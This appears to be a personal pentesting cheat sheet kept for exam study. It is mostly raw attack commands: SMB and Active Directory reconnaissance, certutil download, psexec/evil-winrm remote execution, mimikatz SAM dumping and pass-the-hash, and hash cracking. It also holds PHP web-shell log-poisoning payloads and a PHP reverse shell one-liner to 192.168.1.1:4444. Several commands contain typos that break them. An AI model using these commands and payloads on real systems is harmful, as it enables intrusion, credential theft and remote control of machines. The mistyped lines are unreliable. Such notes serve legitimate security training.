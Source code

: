 Markdown語法：https://hackmd.io/@eMP9zQQ0Qt6I8Uqp2Vqy6w/SyiOheL5N/%2FBVqowKshRH246Q7UDyodFA  
https://blog.stevenyu.tw/2022/06/10/%E6%B7%B1%E5%BA%A6%E8%A7%A3%E6%9E%90-cpent-%E8%80%83%E8%A9%A6%E5%BF%83%E5%BE%97%E3%80%81%E4%BB%A5%E5%8F%8A%E8%88%87-oscp-%E7%9A%84%E6%AF%94%E8%BC%83/  
## NMAP Reacon  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1 

## AD Reacon  
# Windows  
nbtstat -A (IP)  
adreacon  
# Linux  
enum4linux-ng -A  

## Reacon SMB  
net view \\192.168.1.1  
dir \\192.168.1.1  
smbclient -L //IP -U DC_name\\acount  
nmap -n -sS -p137,138,139,448 --script smb-os-discovery 192.168.1.1  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1  

## Use SMB 
smbclient -L //IP -U DC_name\\acount  
smbclient //IP/<Folder> -U DC_name\\account  
smbclient //192.168.1.1/C$ -U DC_name\\account  

## Download File 
certutil -urlcache -split -f <URL> <輸出檔名>  

## Windows Remote  
# WinRM  
evil-winrm  
# RDP  
xfreerdp3 
# psexec  
impacket-psexec  
psexec \\192.168.1.1: cmd.exe  
# smbexec  
impacket-smbexec  

# mimikatz  
privilege::debug  
tocke::elevate  
lsadump::sam  
sekurlsa::pth /user:administrator /domain:. /ntlm:<ntlm hash>  

## GDB 
# Install Plgu-in  
# Commands  
gdb XXXX(binary name)  
b main  
run  
info registers  
disassemble main  
p system
search /bin/sh  

## Privilege Escalation  
# Overlay  
https://github.com/briskets/CVE-2021-3493  


## Firmware Analyze  
# binwalk  
binwalk -e --signature --term (Filename)  
# binwalk3  
binwalk3  
# firmware analysis toolkit(fat)  
sudo ./fat3.py (filename)  
# AttifyOS Emulation  

## Hash Cracker  
# John  
john --wordlist=/usr/share/wordlists/rockyou.txt <Filename>  
# Hashcat  

## Web Recon  
# Nikto  
# wpscan  

## Log Poison  
# SSH Log (/var/log/auth.log)  
ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.1
ssh -l '<?php system($_GET["cmd"]); ?>'@192.168.1.1
# Apache Log (/var/log/apache2/access.log)  
User-Agent: <?php system($_GET['cmd']); ?>

## Reverse Shell
# php
``` php -r '$sock=fsockopen("192.168.1.1",4444);$proc=proc_open("/bin/sh -i", array(0>=$sock, 1=>$sock, 2=>sock),$pipes);' ```
